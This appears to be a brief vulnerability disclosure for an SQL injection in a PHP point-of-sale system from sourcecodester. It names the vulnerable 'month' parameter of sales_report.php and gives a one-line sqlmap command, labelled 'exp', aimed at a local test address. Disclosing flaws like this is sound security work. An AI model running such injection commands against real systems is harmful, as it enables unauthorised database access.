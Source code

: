 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $month

The process of vulnerability discovery is as follows：

![image-20230223220655535](C:\markdown\images\image-20230223220655535.png)

exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/sales_report.php?month=1"
```

![image-20230223220621112](C:\markdown\images\image-20230223220621112.png)